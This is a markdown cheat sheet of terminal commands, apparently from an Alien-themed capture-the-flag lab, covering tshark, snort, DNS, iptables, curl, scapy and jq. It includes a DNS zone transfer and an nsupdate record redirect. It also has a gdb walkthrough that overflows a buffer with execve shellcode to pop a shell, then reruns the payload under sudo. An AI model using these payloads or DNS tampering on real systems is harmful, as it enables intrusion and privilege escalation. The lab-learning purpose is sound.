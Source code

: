 # Various Terminal commands

### How do you find and follow a tcp stream with tshark?
```
tshark -r snort.log.pcap -Y "http.user_agent contains Xenomorph" -T fields -e tcp.stream
tshark -r snort.log.pcap -z follow,tcp,ascii,5
```

### What is an example snort rule to alert on traffic with certain content or user_agent?
```
alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:'YO WTF'; content:'Xenomorph'; sid:1000001; rev:1;classtype:trojan-activity)
```
`pcre` can be used instead of `content` to perform a regular expression filter

### What is scalpel?
It's a way to use extract files from an image binary if you know the headers and footers of the file you're looking for. It works best if you use the real hex values that you're trying to find.

### How do you use dig to perform a domain transfer?
Check `/etc/bind/` for any information on what IP addresses are allowed to modify domains.
```
dig @127.0.0.1 norehca.planet axfr -b 127.34.243.1
```

### How do you use nsupdate to modify subdomain information?
Check `/etc/bind/` for any information on what IP addresses are allowed to modify domains.
```
$ nsupdate
> server 127.0.0.1
> local 127.34.0.1
> update delete  hive.norehca.planet. A
> update add hive.norehca.planet. 600 A 127.0.0.1
> send
```

### Dump of various iptables commands:
```
1. Set the default policies to DROP for 
   the INPUT,FORWARD and OUTPUT chains.

sudo iptables -P INPUT DROP
sudo iptables -P FORWARD DROP
sudo iptables -P OUTPUT DROP

2. Create a rule to LOG all new SSH 
   connection attempts.
   
sudo iptables -I OUTPUT -p tcp -m tcp --dport 22 -m state --state NEW,ESTABLISHED -j LOG --log-prefix "Outgoing SSH connection"
sudo iptables -I INPUT -p tcp -m tcp --dport 22 -m state --state NEW,ESTABLISHED -j LOG --log-prefix "Outgoing SSH connection"

3. Create a rule to ACCEPT all connections 
   that are ESTABLISHED,RELATED on the INPUT
   and the OUTPUT chains.

sudo iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
sudo iptables -A OUTPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT

4. Create a rule to allow only remote source 
   ip address 172.18.0.222 to access the local
   SSH server on (port 22).

sudo iptables -A INPUT -p tcp -s 172.18.0.222 --dport 22 -j ACCEPT

5. Create a rule to allow any remote ip to 
   access local tcp servers on ports 25 and 80.

sudo iptables -A INPUT -p tcp --dport 25 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 80 -j ACCEP

6. Create a rule applied to the INPUT chain
   to ACCEPT all traffic from the lo interface.

sudo iptables -A INPUT -i lo -j ACCEPT

7. Create a rule to allow UDP port 53 and TCP 
   port 80 connections going out (OUTPUT).

sudo iptables -A OUTPUT -p udp --dport 53 -j ACCEPT
sudo iptables -A OUTPUT -p tcp --dport 80 -j ACCEPT
```

### How do you save and use cookies with cURL?
```
curl localhost/cache --cookie-jar cookie.txt
curl localhost/upload --cookie cookie.txt
```

### How do you get and delete files from an FTP server with cURL?
```
curl -u ftpuser:ftppass ftp://127.0.0.1/filename1 -O filename1
curl ftp://ftpuser:ftppass@localhost -Q "DELE xenomorph1"
```

### How do you analyze a pcap file with an SSL keylog file?
```
tshark -r <capture_file>  -Y <wireshark_filter>  -o ssl.keylog_file:client_random.log
```

### How can you use scapy to realign the ports for server and client so that tshark can analyze the file?
```
#!/usr/bin/python
from scapy.all import *

packets = rdpcap('covert_channel.pcap')
for packet in packets:
  if packet[IP].src == '10.124.245.32':
    packet[TCP].sport = 443
    packet[TCP].dport = 59292
  else:
    packet[TCP].sport = 59292
    packet[TCP].dport = 443

wrpcap('fixed_ports.pcap', packets)
```

### Give an example of using gdb and using a payload from shell-storm to pop a shell by overwriting EIP and directing code to run the payload:
```
weyuser@14c7b2eb3e7f:~$ gdb xeno_scanner.elf 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from xeno_scanner.elf...(no debugging symbols found)...done.
(gdb) r $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x90\xd6\xff\xffAAAAA")
Starting program: /home/weyuser/xeno_scanner.elf $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x90\xd6\xff\xffAAAAA")
Xenomorph Scanner. Testing DNA of user with specified $UID...
Storing your DNA at: 0xffffd690
User with UID " 1�Ph//shh/bin��PS��
                                   ̀ABCDEFGHIJKLMNOPQRST����AAAAA" is NOT infected with Xeno-DNA.
Program received signal SIGSEGV, Segmentation fault.
0xffffd690 in ?? ()
(gdb) info registers
eax            0x0      0
ecx            0x7fffffbb       2147483579
edx            0xf7fcd870       -134424464
ebx            0xffffd6f0       -10512
esp            0xffffd6c0       0xffffd6c0
ebp            0x54535251       0x54535251
esi            0xf7fcc000       -134430720
edi            0xf7fcc000       -134430720
eip            0xffffd690       0xffffd690
eflags         0x10286  [ PF SF IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb) r $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x91\xd6\xff\xffAAAAA")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/weyuser/xeno_scanner.elf $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x91\xd6\xff\xffAAAAA")
Xenomorph Scanner. Testing DNA of user with specified $UID...
Storing your DNA at: 0xffffd690
User with UID " 1�Ph//shh/bin��PS��
                                   ̀ABCDEFGHIJKLMNOPQRST����AAAAA" IS infected with xeno-DNA. Please report to the medical bay for immediate extraction
process 35 is executing new program: /bin/dash
$ ls
HELP  xeno_scanner.c  xeno_scanner.elf
$ whoami
weyuser
```

### After finding the correct payload, how can you execute a file with the payload?
```
weyuser@8914c8642587:~$ sudo ./xeno_scanner.elf $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80AAAAAAAAAAAAAAAAAAAA\xb1\xd6\xff\xffAAAAAAAA")
```

### Give an example jq query to filter entries based on a field matching an array of names:
```
jq '.[]| select(.name.first | contains("Ellen","Ash","Dallas","Lambert","Brett","Kane","Parker")) ' crew.json
```

### Give an example jq query to combine fields and print them in CSV format:
```
jq -cr '.[]| select(.name.first | contains("Ellen","Ash","Dallas","Lambert","Brett","Kane","Parker")) | [.latitude,.longitude] | @csv' crew.json
```
